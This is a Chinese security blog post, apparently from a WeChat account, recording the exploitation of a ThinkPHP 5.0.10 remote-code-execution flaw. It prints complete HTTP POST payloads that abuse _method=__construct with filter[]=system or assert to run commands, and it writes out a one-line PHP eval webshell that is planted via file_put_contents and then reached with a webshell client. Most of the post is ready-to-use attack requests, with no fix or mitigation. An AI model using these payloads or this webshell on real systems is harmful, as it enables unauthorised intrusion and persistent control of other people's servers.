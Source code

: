 #  一次thinkphp5.0.10漏洞利用记录

原创 carrypan  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 渗透、SRC小记

____

___发表于_

收录于合集

开局xray扫出thinphp rce漏洞：

![]()

复制request放到burp进行利用：

  *   *   *   *   *   *   * 

    
    
    POST / HTTP/1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 59Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip  
    _method=__construct&method=GET&filter[]=system&get[]=whoami

![]()

返回版本5.0.10，那就把5.0.10的poc全打一遍

s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

![]()  

![]()

都失败了，尝试了三次后，发现目标无法访问了，应该是被waf拦截了，当时搁置了几天，后来听同事说也发现了这个漏洞但是无法利用，后续就开始查阅资料，尝试进行利用，看到有些文章里有提到写webshell，赶紧尝试下：

s=file_put_contents('sectest.php','<?php
phpinfo();')&_method=__construct&method=POST&filter[]=assert

成功写入phpinfo：

![]()

开始直接写的冰蝎马，发现连不上，再尝试写哥斯拉马，成功连上了：

  *   *   *   *   *   *   *   *   * 

    
    
    POST / HTTP/1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 127Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip  
    s=file_put_contents('sectest20230220.php','<?phpeval($_POST["pass2023"]);')&_method=__construct&method=POST&filter[]=assert

直接连接：

![]()

![]()

在测试的过程中要多翻翻资料，利用方法也要都尝试一下，也许就柳暗花明了呢。  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

